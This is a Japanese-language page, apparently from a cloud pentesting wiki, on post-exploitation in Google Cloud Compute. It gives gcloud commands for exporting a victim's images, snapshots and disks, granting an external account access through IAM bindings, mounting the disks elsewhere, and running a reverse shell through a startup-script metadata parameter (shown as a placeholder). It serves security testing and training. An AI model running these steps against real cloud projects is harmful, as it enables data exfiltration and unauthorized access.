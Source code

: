 # GCP - コンピュート ポストエクスプロイテーション

{{#include ../../../banners/hacktricks-training.md}}

## コンピュート

コンピュートとVPC（ネットワーキング）に関する詳細情報は、以下を確認してください：

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### 画像をローカルにエクスポートおよび検査

これにより、攻撃者は**既存の画像に含まれるデータにアクセス**したり、**実行中のVMの新しい画像を作成**して、そのデータにアクセスすることができます。実行中のVMにアクセスすることなく。

VM画像をバケットにエクスポートし、その後ダウンロードしてローカルにマウントすることが可能です。コマンドは次の通りです：
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
攻撃者がこのアクションを実行するには、ストレージバケットに対する権限が必要であり、確実に**cloudbuildに対する権限**が必要です。これは、エクスポートを実行するように求められる**サービス**です。\
さらに、これが機能するためには、codebuild SAとcompute SAが特権的な権限を持っている必要があります。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` は以下が必要です：

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

そして、SA `<project-id>-compute@developer.gserviceaccount.com` は以下が必要です：

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### スナップショットとディスクをローカルにエクスポートおよび検査する

スナップショットとディスクを直接エクスポートすることはできませんが、**スナップショットをディスクに変換し、ディスクをイメージに変換する**ことは可能であり、**前のセクション**に従って、そのイメージをエクスポートしてローカルで検査することができます。
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### VMを作成してイメージを検査する

攻撃者が**イメージを作成した**場所から**イメージに保存されたデータ**や**実行中のVM**にアクセスすることを目的として、外部アカウントにイメージへのアクセスを付与することが可能です：
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
そして、それから新しいVMを作成します：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
もし画像に対して外部アカウントのアクセスを与えられなかった場合、被害者のプロジェクトでその画像を使用してVMを起動し、**メタデータにリバースシェルを実行させる**ことで画像にアクセスすることができます。パラメータを追加して:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### スナップショット/ディスクをVMにアタッチして検査する

**ディスクまたはスナップショットに保存されたデータにアクセスすることを目的として、スナップショットをディスクに変換し、ディスクをイメージに変換し、前の手順に従うことができます。**

または、**外部アカウントにディスクへのアクセスを付与する**ことができます（出発点がスナップショットの場合は、スナップショットへのアクセスを付与するか、そこからディスクを作成します）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**インスタンスにディスクをアタッチ**する:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM内にディスクをマウントする：

1.  **VMにSSH接続する**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **ディスクを特定する**：VM内に入ったら、ディスクデバイスをリストして新しいディスクを特定します。通常、`/dev/sdb`、`/dev/sdc`などとして見つけることができます。
3.  **ディスクをフォーマットしてマウントする**（新しいまたは生のディスクの場合）：

- マウントポイントを作成する：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- ディスクをマウントする：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

もし**スナップショットやディスクに外部プロジェクトへのアクセスを与えることができない場合**、**スナップショット/ディスクと同じプロジェクト内のインスタンスでこれらの操作を実行する必要があるかもしれません**。

{{#include ../../../banners/hacktricks-training.md}}
